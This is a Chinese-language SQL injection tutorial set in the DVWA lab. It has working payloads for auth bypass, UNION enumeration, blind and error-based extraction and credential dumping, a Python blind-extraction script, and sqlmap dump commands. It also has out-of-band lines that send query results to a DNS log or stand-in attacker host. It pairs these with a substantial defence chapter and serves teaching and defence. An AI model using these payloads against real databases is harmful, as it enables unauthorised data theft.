





# SQL 注入（SQL Injection, SQLi）

> 日期：2026-11-04
> 所属大纲阶段：3. Web 安全
> 参考资料：
> - OWASP《SQL Injection Prevention Cheat Sheet》（cheatsheetseries.owasp.org）
> - PortSwigger Web Security Academy — SQL injection 系列模块
> - OWASP Top 10:2021 — A03:2021 Injection
> - DVWA（Damn Vulnerable Web Application）v1.9 官方源码与文档
> - MySQL 8.0 Reference Manual — information_schema 章节
> - sqlmap 用户手册（github.com/sqlmapproject/sqlmap/wiki/Usage）

---

## 0. 阅读前提与安全红线

- 读者画像：有开发背景，熟悉至少一门 Web 后端语言与基础 SQL。
- **本文所有攻击示例仅限本地靶场（DVWA、SQLi-labs 等授权环境）使用**。对未授权系统实施 SQL 注入属于违法行为（中国《刑法》第 285/286 条、美国 CFAA 等）。
- 环境：Docker 部署的 DVWA v1.9（PHP 7 + MySQL 5.7），默认数据库 `dvwa`，表 `users`（含 `user`、`password` 列）。安全级别通过 DVWA Security 页面切换（Low / Medium / High / Impossible）。

---

## 1. 什么是 SQL 注入

**SQL 注入（SQL Injection, SQLi）** 是指攻击者将额外的 SQL 代码插入到应用程序的输入中，使其被拼进后端 SQL 语句并交给数据库引擎执行，从而绕过认证、读取或篡改数据、甚至在特定条件下执行系统命令的漏洞。

一句话本质：**用户输入的「数据」被当成了 SQL 的「代码」**。这与缓冲区溢出的「数据被当代码执行」是同一种思维模型，只是层次不同（SQL 解释器 vs CPU）。

OWASP Top 10:2021 中，注入（Injection）位列 A03，其中 SQL 注入是最典型、危害最大的子类。

### 1.1 一个最小的例子

```php
// 环境：靶场机，PHP + MySQL，登录逻辑
$username = $_POST['username'];
$password = $_POST['password'];
$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

攻击者在用户名框输入 `admin' -- `（注意末尾空格），最终 SQL 变成：

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = '...'
```

`--` 之后的内容被注释掉，密码校验整体失效。这就是经典的**认证绕过（Authentication Bypass）**。

---

## 2. 成因剖析：字符串拼接 vs 参数化

### 2.1 错误写法（字符串拼接）

```php
// 反面示例：仅限靶场演示，生产环境禁止
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result = mysqli_query($conn, $query);
```

执行流程：



**问题根源**：数据在进入数据库之前就参与了「语法构建」。SQL 的语法结构（AST）是在字符串层面完成的，输入中的引号、注释符、关键字都能改变语法树。

### 2.2 正确写法（参数化查询 / 预编译）

```php
// 正面示例：PDO 预编译
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->execute([$id]);
```

执行流程：



**关键区别**：预编译把「语法定义」和「数据填充」拆成两个阶段，数据永远不参与语法解析。这是 SQL 注入的**根本性修复**，而不是「更严的过滤」。

### 2.3 正反对照表

| 维度 | 字符串拼接 | 参数化查询 |
|------|-----------|-----------|
| 语法树构建时机 | 拼接完成时（含用户数据） | prepare 阶段（只有模板） |
| 输入中的引号/注释 | 可改变语法 | 只是普通字符 |
| 转义函数是否可靠 | 依赖 `addslashes`/`escape_string`，受编码（见宽字节）与上下文限制 | 不依赖转义 |
| 性能 | 每次都要重新解析 | 可复用执行计划（多数驱动有客户端/服务端缓存） |
| 可注入面 | 全部输入点 | 仅限无法参数化的部位（表名、列名、排序字段，见 §10） |

---

## 3. 分类详解：六种注入类型及适用场景

实际测试中的决策树：



### 3.1 UNION 注入（联合查询注入）

利用 `UNION SELECT` 把攻击者自己的查询结果拼进原始结果集回显到页面。**前提：页面直接回显查询结果**。效率最高，详见 §4 完整流程。

### 3.2 布尔盲注（Boolean-based Blind SQLi）

页面没有数据回显，但根据注入条件真假呈现两种不同状态（如「查询成功/失败」、有无内容）。每次只能获得 1 bit 信息。

```sql
-- 仅限靶场：判断当前库第一个字符的 ASCII 是否大于 105
1' AND ascii(substring((SELECT database()),1,1))>105#
-- 页面正常 → 首字符 ASCII > 105；不正常 → ≤ 105
-- 本例 database()='dvwa'，首字符 'd'=100，条件为假 → 页面应无结果
```

适用场景：有回显差异但无数据输出。缺点：数据量大时请求次数爆炸，需借助脚本或 sqlmap。

### 3.3 时间盲注（Time-based Blind SQLi）

连真假状态都没有，用延时函数把「真/假」编码到响应时间上：

```sql
-- 仅限靶场：MySQL
1' AND IF(ascii(substring(database(),1,1))=100, SLEEP(3), 0)#
```

适用场景：页面完全无差异。注意区分网络抖动，一般取 `SLEEP(5)` 以上并多次验证。

### 3.4 报错注入（Error-based SQLi）

应用把数据库错误信息直接回显到页面（`die(mysqli_error(...))`），利用报错内容携带查询结果：

```sql
-- 仅限靶场：MySQL 5.1+（XPATH 系列）
1' AND updatexml(1, concat(0x7e, (SELECT database())), 1)#
-- 报错信息：XPATH syntax error: '~dvwa'
```

详见 §6。

### 3.5 堆叠注入（Stacked Queries）

在一条注入中用分号追加**完整的新语句**：

```sql
-- 仅限靶场：SQLi-labs Pass-38（mysqli_multi_query）
1'; INSERT INTO users(id,username,password) VALUES(100,'hacker','123')#
```

| 数据库/驱动 | 是否支持堆叠 |
|------------|-------------|
| PHP mysqli `mysqli_multi_query()` | 支持 |
| PHP PDO（PDO_MySQL 且模拟预编译开启（默认 `ATTR_EMULATE_PREPARES=true`）配合 mysqlnd 默认多语句开启时） | 支持 |
| PHP mysqli `mysqli_query()` | 不支持（单语句） |
| MSSQL（多数驱动） | 支持 |
| PostgreSQL | 支持（多语句同请求） |
| MySQL（默认 API） | 不支持 |
| Oracle | 不支持（可用匿名块 PL/SQL 变通） |

> 注：PDO 的堆叠能力恰恰来自**客户端模拟预编译**——PDO_MySQL 默认 `ATTR_EMULATE_PREPARES=true` 由驱动在客户端拼 SQL，配合 mysqlnd 默认开启的多语句才可堆叠；若显式关闭模拟预编译、走服务端真预编译（见 §11.1），反而不支持堆叠。

### 3.6 带外注入（Out-of-band, OOB）

数据不通过页面回传，而通过 DNS/HTTP 等旁路信道带出。适合**完全无回显且出网不受限**——即数据库服务器可以主动发起网络请求的场景：

```sql
-- 仅限靶场（Windows 上的 MySQL）：load_file + UNC 路径触发 DNS 解析
SELECT load_file(CONCAT('\\\\', (SELECT database()), '.xxxx.dnslog.cn\\a'));
-- MSSQL: EXEC master..xp_dirtree '\\被查询数据.dnslog.cn\test'
-- Oracle: UTL_HTTP.REQUEST('http://被查询数据.attacker-lab/')
```

DNSLog 平台只用于本地实验/授权测试记录解析日志。

---

## 4. 手工 UNION 注入完整流程（DVWA SQLi Low）

环境：Docker 部署的 DVWA v1.9，安全级别 Low，页面 `/vulnerabilities/sqli/`，输入框提交 `id`（GET 参数）。

Low 级别漏洞源码（节选）：

```php
// DVWA v1.9 vulnerabilities/sqli/source/low.php
$id = $_REQUEST['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query)
    or die('<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>');
```

两处要害：`$_REQUEST` 直取输入直接拼进 SQL；查询失败时把 `mysqli_error()` 回显出来（这同时给了报错注入的条件）。

### 4.1 第一步：确认注入点与闭合方式

输入 `1`，正常返回 First name/Surname。输入以下探测串并观察：

| 输入 | 现象 | 结论 |
|------|------|------|
| `1'` | SQL 报错 | 引号被带入 SQL，存在注入 |
| `1' #` | 恢复正常 | 闭合方式为单引号，注释符 `#` 有效 |
| `1' AND '1'='2`（构造 `1' AND '1'='2'#`） | 无结果 | 布尔条件生效 |
| `1 AND 1=2` | 正常返回 | 说明参数被包在引号里（数字型直接拼不行，必须先闭合引号） |

### 4.2 第二步：探测列数（ORDER BY）

```text
输入: 1' ORDER BY 1#   → 正常
输入: 1' ORDER BY 2#   → 正常
输入: 1' ORDER BY 3#   → 报错 Unknown column '3' in 'order clause'
```

结论：SELECT 有 **2 列**。也可以用 `1' UNION SELECT NULL,NULL#` 逐个加 NULL，报错则列数不对。

### 4.3 第三步：确定显示位

```text
输入: 1' UNION SELECT 'a','b'#
页面: First name: admin  Surname: admin      （原查询结果）
      First name: a     Surname: b           （注入行 → 两列都是显示位）
```

### 4.4 第四步：爆基础信息

```sql
1' UNION SELECT version(), database()#
-- 回显: 5.7.x / dvwa
1' UNION SELECT user(), @@datadir#
-- 当前数据库用户、数据目录（判断权限与操作系统）
```

### 4.5 第五步：爆库名（MySQL information_schema）

`information_schema` 是 MySQL 自带的元数据库（ANSI 标准），记录所有库/表/列的结构信息：

```sql
-- 所有数据库
1' UNION SELECT NULL, schema_name FROM information_schema.schemata#
-- → information_schema, dvwa, mysql, performance_schema, sys

-- 当前库所有表
1' UNION SELECT NULL, table_name FROM information_schema.tables
    WHERE table_schema = database()#
-- → guestbook, users

-- users 表所有列
1' UNION SELECT NULL, column_name FROM information_schema.columns
    WHERE table_schema = database() AND table_name = 'users'#
-- → user_id, first_name, last_name, user, password, avatar, ...
```

### 4.6 第六步：拖数据

```sql
1' UNION SELECT user, password FROM users#
-- 回显: admin / 5f4dcc3b5aa765d61d8327deb882cf99 ...
```

`5f4dcc...` 是 MD5（`password`），拿去本地 hashcat/john 离线爆破即可（仅限靶场数据）。

### 4.7 通用流程总结（可迁移到任何 UNION 场景）


### 4.8 四大数据库差异对照表（迁移测试必背）

| 目标信息 | MySQL | PostgreSQL | MSSQL | Oracle |
|----------|-------|------------|-------|--------|
| 版本 | `version()` / `@@version` | `version()` | `@@version` | `select banner from v$version` |
| 当前库 | `database()` | `current_database()` | `DB_NAME()` | `SYS_CONTEXT('USERENV','CURRENT_SCHEMA')` |
| 所有库 | `information_schema.schemata` | `SELECT datname FROM pg_database` | `SELECT name FROM sys.databases` | `SELECT username FROM all_users`（schema 概念） |
| 表清单 | `information_schema.tables` | 同左 | `information_schema.tables` | `all_tables` |
| 列清单 | `information_schema.columns` | 同左 | `information_schema.columns` | `all_tab_columns` |
| 延时 | `SLEEP(5)` / `BENCHMARK()` | `pg_sleep(5)` | `WAITFOR DELAY '0:0:5'` | `DBMS_LOCK.SLEEP(5)` / 重查询 |
| 字符串拼接 | `CONCAT(a,b)` | `a\|\|b` | `a+b` | `a\|\|b` |
| 无 FROM 查询 | 允许 | 允许 | 允许 | 必须加 `FROM dual` |
| 注释 | `#` `-- ` `/* */` | `-- ` `/* */` | `-- ` `/* */` | `-- ` `/* */` |
| 默认堆叠 | 不支持 | 支持 | 支持 | 不支持 |
| 报错函数 | `updatexml`/`extractvalue`/`floor` | 较少利用 | 类型转换报错 | `CTXSYS`/`XMLType` 等 |
| 带外通道 | `load_file` UNC（Windows） | `dblink` | `xp_dirtree`/`xp_cmdshell` | `UTL_HTTP`/`UTL_TCP` |

> 记忆点：Oracle 最「傲娇」（要 `FROM dual`、不拼接堆叠）；MySQL 信息最全（`information_schema` + 强大报错函数）；MSSQL 一旦高权限可 `xp_cmdshell` 直达系统层（靶场话题，此处不展开载荷）。

---

## 5. 盲注技巧：逐字符、二分法与自动化

### 5.1 逐字符提取（DVWA SQLi Blind Low）

盲注页面只有 "User ID exists in the database" / 缺省两种状态。

```sql
-- 判断库名长度
1' AND LENGTH(database())=4#
-- 逐字符（substring + ascii）
1' AND ascii(substring((SELECT database()),1,1))=100#   -- 'd'
1' AND ascii(substring((SELECT database()),2,1))=118#   -- 'v'
```

### 5.2 二分法（每次请求获取 log₂ 信息）

逐字符等值比较最坏 95 次请求/字符；二分法只要 7 次：

```text
目标字符 ascii ∈ [32,126]
第 1 问: >79 ? 是 → [80,126]，否 → [32,79]
第 2 问: 区间中点继续二分 ……
7 问之后唯一确定字符
```

```sql
1' AND ascii(substring((SELECT table_name FROM information_schema.tables
    WHERE table_schema=database() LIMIT 0,1),1,1))>79#
```

### 5.3 手写盲注脚本骨架（Python，仅打靶场）

```python
# 环境：本机 Python 3 + requests，目标为本地 DVWA 靶场
import requests

URL = "http://localhost:8080/vulnerabilities/sqli_blind/"
COOKIE = {"PHPSESSID": "你的会话", "security": "low"}
MARK = "User ID exists in the database"

def test(payload: str) -> bool:
    r = requests.get(URL, params={"id": payload, "Submit": "Submit"}, cookies=COOKIE)
    return MARK in r.text

def extract(expr: str, max_len: int = 64) -> str:
    result = ""
    for pos in range(1, max_len + 1):
        if not test(f"1' AND ascii(substring({expr},{pos},1))>0#"):
            break
        lo, hi = 32, 126
        while lo < hi:
            mid = (lo + hi) // 2
            if test(f"1' AND ascii(substring({expr},{pos},1))>{mid}#"):
                lo = mid + 1
            else:
                hi = mid
        result += chr(lo)
    return result

print(extract("SELECT database()"))
```

### 5.4 sqlmap 指定技术（--technique）

```bash
# B=布尔盲注 E=报错 U=UNION S=堆叠 T=时间盲注；只要布尔+UNION：
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie="PHPSESSID=xxx;security=low" --technique=BU --batch
```

---

## 6. 报错注入函数详解（MySQL）

原理：让数据库在**报错信息里**带出数据。核心套路是把子查询结果拼进一个必然报错的函数参数（如非法 XPATH）。

```sql
-- 仅限靶场：DVWA SQLi Low，输入 1' AND ... #

-- extractvalue：XPATH 参数非法时回显该参数内容（32 位长度限制）
1' AND extractvalue(1, concat(0x7e, (SELECT database())))#
-- XPATH syntax error: '~dvwa'

-- updatexml：同上（MySQL 5.1+）
1' AND updatexml(1, concat(0x7e, (SELECT group_concat(table_name)
       FROM information_schema.tables WHERE table_schema=database())), 1)#

-- floor + group by：利用聚合时的主键冲突报错（MySQL 5.0/8 可用）
1' AND (SELECT 1 FROM (SELECT count(*),concat((SELECT database()),
       floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)#
```

要点：

- `0x7e`（波浪号）用作内容分隔标记，因为 XPATH 非法字符保证必报错。
- 回显长度限制 32 字符，长结果需配合 `substring()` 分段。
- MySQL 8 中 `floor` 报错部分场景仍可用；`exp/bigint` 溢出类报错已基本失效——报错函数随版本波动，这也是「先试 UNION、后试报错」的原因。

---

## 7. 宽字节注入（GBK 编码问题）

### 7.1 原理

PHP `addslashes()` 或 GBK 环境下的转义会把 `'`（十六进制 `0x27`）变成 `\'`（即 `0x5c 0x27`，反斜杠为 `0x5c`）。但 GBK 是**双字节编码**：`0xdf 0x5c` 恰好是一个合法汉字「運」。攻击者在引号前加 `%df`：

```text
输入:        %df '
addslashes:  %df %5c %27          （%5c 是转义加的反斜杠）
GBK 解码:    [df5c]=運  +  %27    ← 反斜杠被"吃"进汉字
数据库看到:   運'                  ← 引号逃逸成功！
```

### 7.2 复现条件（靶场）

1. 连接字符集为 GBK/GB2312（`SET NAMES 'gbk'`）；
2. 防御只用了 `addslashes()`（而非「`mysqli_set_charset()` 显式声明字符集 + `mysqli_real_escape_string()`」这种感知字符集的转义——见 §7.3 修复，或直接预编译）。

```text
payload（仅限靶场，如 SQLi-labs 宽字节关卡 Less-32/33；users 查询为 3 列，
先 ORDER BY 探测列数再 UNION，列数不匹配会报 different number of columns）:
%df' UNION SELECT 1,database(),3#
```

### 7.3 修复

- 连接与数据库统一使用 **UTF-8**；
- 使用参数化查询（宽字节对预编译无效）；
- `mysqli_set_charset()` 显式声明字符集（而不是 `SET NAMES`），使转义函数知道当前编码。

---

## 8. sqlmap 详解

sqlmap 是最主流的开源 SQL 注入自动化工具（Python 编写）。**只能用于授权测试/靶场**，扫描行为会被记录，未经授权使用违法。

### 8.1 目标指定

```bash
# 1) GET 参数直接指定
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=abc;security=low"

# 2) POST 请求（DVWA Medium 是 POST）：用 -r 从 Burp 导出的请求文件，最通用
sqlmap -r request.txt --batch          # request.txt 为 Burp Save Item 的原始请求

# 3) 表单自动解析
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/" --forms --batch

# 4) 需要登录态：--cookie；更复杂会话可用 --auth-type/--auth-cred
```

### 8.2 数据提取

```bash
sqlmap -u ... --current-db --current-user            # 当前库/用户
sqlmap -u ... --dbs                                  # 所有库
sqlmap -u ... -D dvwa --tables                       # dvwa 库所有表
sqlmap -u ... -D dvwa -T users --columns             # 列结构
sqlmap -u ... -D dvwa -T users --dump                # 拖数据（自动提示是否破 hash）
sqlmap -u ... -D dvwa -T users --dump --start=1 --stop=10   # 分段
```

### 8.3 深度与风险

```bash
--level=1..5    # 测试范围：level≥2 测 Cookie，≥3 测 User-Agent/Referer，≥5 全部
--risk=1..3     # 攻击强度：risk=3 包含 OR 型注入（可能改写数据，慎用）
--technique=BEUSTQ  # 限定技术：Boolean/Error/UNION/Stacked/Time/Inline queries
--threads=10    # 并发（盲注提速）
--tamper=xxx    # 载荷变形脚本（绕过基础过滤）
```

### 8.4 tamper 简介

tamper 是对 payload 的后处理钩子脚本，位于 `tamper/` 目录，常见如：

| tamper | 作用 |
|--------|------|
| `space2comment` | 空格→`/**/` |
| `between` | `>` → `NOT BETWEEN 0 AND` |
| `charencode` | URL 编码变形 |
| `randomcase` | 关键字随机大小写 |
| `equaltolike` | `=` → `LIKE` |

自定义 tamper 只需写一个 `tamper(payload, **kwargs)` 返回变形后字符串的 Python 函数。

### 8.5 批量与便利参数

```bash
sqlmap -m urls.txt --batch            # 批量目标文件
sqlmap -g "inurl:php?id=" --batch     # Google dork（仅授权范围）
--batch                               # 全部交互用默认答案
--flush-session                       # 重置缓存结果
--smart / --parsable / --answers      # CI 场景输出控制
```

### 8.6 风险提示与合法性

- `--dump`、`--os-shell` 类功能在真实环境即构成「获取/破坏计算机数据」，未经授权即违法；
- sqlmap 流量特征明显（默认 UA `sqlmap/1.x`、大量结构化探测），WAF/日志都容易识别；
- 自建靶场实验后建议清空数据库并重建容器，避免数据污染。

---

## 9. 二阶注入（Second-order SQLi）与排序注入

### 9.1 二阶注入

**数据在第一次存入时被安全处理（转义/参数化），但在后续另一处 SQL 中被读出后未再参数化地拼接使用。**

```php
// 仅限靶场示意
// 第一步：注册用户名（参数化，安全存入）
$stmt = $pdo->prepare("INSERT INTO users(username) VALUES (?)");
$stmt->execute(["admin'--"]);              // 原样存储（参数化允许任意字符安全入库）

// 第二步：别处读出使用（拼接，注入在此爆发）
$row = ...;                                 // username = admin'--
$sql = "SELECT * FROM users WHERE username = '" . $row['username'] . "' AND ...";
```

防御启示：**参数化必须覆盖每一条 SQL，而不是每个输入点**。存储过的数据同样不可信。

### 9.2 排序注入（ORDER BY 参数）

`?sort=name` 常被直接拼进 `ORDER BY $sort`。注意：**表名列名、排序方向无法用占位符参数化**——数据库不允许 `ORDER BY ?` 按列名生效（参数只会被当字符串常量）。

```sql
-- 危险：ORDER BY $sort 注入点可利用报错/盲注：
?sort=updatexml(1,concat(0x7e,database()),1)
```

**正确防御：白名单映射**：

```php
$ALLOWED_SORT = [
    'name'  => 'username',
    'date'  => 'created_at',
];
$column = $ALLOWED_SORT[$_GET['sort']] ?? 'created_at';   // 未知值回退默认
$direction = ($_GET['order'] ?? 'ASC') === 'DESC' ? 'DESC' : 'ASC';
$sql = "SELECT ... ORDER BY {$column} {$direction}";       // 两个变量均来自白名单
```

同理适用于表名/列名动态拼接的场景：**标识符一律白名单，数据一律参数化**。

---

## 10. ORM 框架并非免疫

「用了 ORM 就没有注入」是最常见的错觉。ORM 默认的查询构造器确实参数化了**值**，但任何**把字符串直接拼进 SQL 的逃生舱**都是注入点。

### 10.1 MyBatis：`#{}` vs `${}`（高频面试题 + 高频漏洞）

```xml
<!-- #{} → 预编译占位符（安全）：生成 WHERE name = ? -->
<select id="find">SELECT * FROM users WHERE name = #{name}</select>

<!-- ${} → 字符串替换（危险）：直接把值拼进 SQL -->
<select id="findUnsafe">SELECT * FROM users WHERE name = '${name}'</select>
```

`#{}` 底层即 `PreparedStatement`；`${}` 无任何转义。**合法 `${}` 用途几乎只有 ORDER BY / 动态表名**，而那也必须配合白名单校验。代码审计时全局搜 `${` 是 MyBatis 项目注入审计的第一动作。

### 10.2 Laravel

```php
// 安全：查询构造器自动参数绑定
User::where('name', $req->name)->get();

// 危险：whereRaw / DB::raw 拼接
User::whereRaw("name = '{$req->name}'")->get();
DB::select("SELECT ... WHERE id = " . $req->id);   // 原生拼接同样危险
// 正确的原生写法仍是绑定：
DB::select('SELECT ... WHERE id = ?', [$req->id]);
```

### 10.3 Django

```python
# 安全：ORM 自动参数化
User.objects.filter(name=req.GET["name"])

# 危险：extra / raw / 字符串拼接
User.objects.extra(where=[f"name = '{name}'"])      # extra() 官方已不推荐
User.objects.raw(f"SELECT * FROM app_user WHERE name = '{name}'")
```

> 结论：把 ORM 当「默认安全的值绑定器」+「若干危险的字符串逃生舱」来看待，审计清单就是搜齐所有逃生舱（`raw`、`raw SQL`、`${}`、`extra`、`RawQuerySet`、`cursor.execute` 拼接）。

---

## 11. 防御专章（重点）

防御层级金字塔：



### 11.1 参数化查询原理图：预编译时发生了什么



两个必须知道的边界：

1. **标识符不可参数化**（表名、列名、ORDER BY 字段）→ 白名单（见 §9.2）。
2. **模拟预编译（emulated prepares）**：PDO 默认 `ATTR_EMULATE_PREPARES=true` 时由驱动在客户端拼 SQL（仍会正确转义，但失去「语法先行固化」语义，且 `LIMIT ?` 等行为不同）。安全敏感场景建议显式关闭：

```php
$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
```

### 11.2 各语言参数化示例

Java（PreparedStatement）：

```java
// Java 8+, JDBC；Try-with-resources 自动关闭
String sql = "SELECT first_name, last_name FROM users WHERE user_id = ?";
try (PreparedStatement ps = conn.prepareStatement(sql)) {
    ps.setInt(1, id);                    // 类型明确绑定，不存在拼接
    try (ResultSet rs = ps.executeQuery()) {
        while (rs.next()) { /* ... */ }
    }
}
// MyBatis 侧：全部用 #{}，${} 仅白名单后的 ORDER BY
```

Python（DB-API 参数风格）：

```python
# Python 3；不同驱动 paramstyle：qmark(?) / format(%s) / numeric(%(name)s)
cur = conn.cursor()
cur.execute("SELECT first_name, last_name FROM users WHERE user_id = %s", (id,))
# SQLAlchemy Core：自动参数化
session.query(User).filter(User.user_id == id).all()
# 危险反面：cur.execute(f"... WHERE id = {id}")  ← 永远禁止
```

Go（database/sql）：

```go
// Go 1.x 标准库；占位符随驱动而异（MySQL 用 ?，PostgreSQL 用 $1）
row := db.QueryRow("SELECT first_name, last_name FROM users WHERE user_id = ?", id)
// gorm: db.Where("user_id = ?", id).First(&u)
// 危险反面：fmt.Sprintf 直接拼 SQL ← 注入
```

PHP（PDO）：

```php
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
$stmt->execute([':id' => $id]);
// DVWA Impossible 级别即此写法 + try/catch 统一错误处理
```

Node.js（mysql2 / pg）：

```javascript
db.query("SELECT first_name, last_name FROM users WHERE user_id = ?", [id]);
// Sequelize/Knex 默认绑定；knex.raw('??', [ident]) 仅用于标识符且有白名单约束
```

### 11.3 最小权限数据库账号

即使被注入，权限收敛也能把伤害压到最小：

| 措施 | 示例 |
|------|------|
| 应用账号与 DBA 分离 | 应用账号禁止 `FILE`、`SUPER`、`GRANT` |
| 单库单账号 | `GRANT SELECT, UPDATE ON shop.* TO 'shop_web'@'10.0.%'` |
| 只读与读写分离 | 报表/查询接口用只读账号 |
| 禁止 sa/root/FILE 权限连接 | `REVOKE FILE ON *.* FROM 'webapp'@'%'` |
| 存储过程与系统表 | 应用账号无 `information_schema` 之外系统库访问（版本相关） |

`FILE` 权限尤其关键：MySQL `load_file()/INTO OUTFILE` 读写服务器文件的先决条件就是它。

### 11.4 错误信息屏蔽

- 生产环境关闭调试回显：PHP `display_errors=Off` + `log_errors=On`；框架统一异常页；不把 `mysqli_error()`/堆栈返回给客户端（DVWA Low 恰好全占了）。
- 这只**减少信息泄露**（报错注入的通道），不修复注入本身——永远不要用「屏蔽报错」替代参数化。

### 11.5 输入校验（辅助层）

- 对有明确格式的输入做白名单校验：数字 id 强制 `(int)` 转换、UUID 用正则、枚举值用 `in_array($v, [...], true)`。
- 校验发生在「绑定前」，用于尽早拒绝非法请求与减轻日志噪音；**不是**防注入主手段。

### 11.6 WAF 的定位与局限

- 定位：**纵深防御的一层**，拦批量扫描器与已知载荷形态（如 sqlmap 默认流量的正则特征）。
- 局限：
  - 高变形载荷（编码、注释、同义改写）可绕过规则；
  - 业务正常输入与攻击载荷可能同形（误报）；
  - HTTPS 内网代理部署形态、分块传输等场景规则可见性受限；
  - **任何 WAF 都不能替代参数化**——参数化使注入在原理上不成立，WAF 只是提高攻击成本。

### 11.7 防御检查清单（Code Review 用）

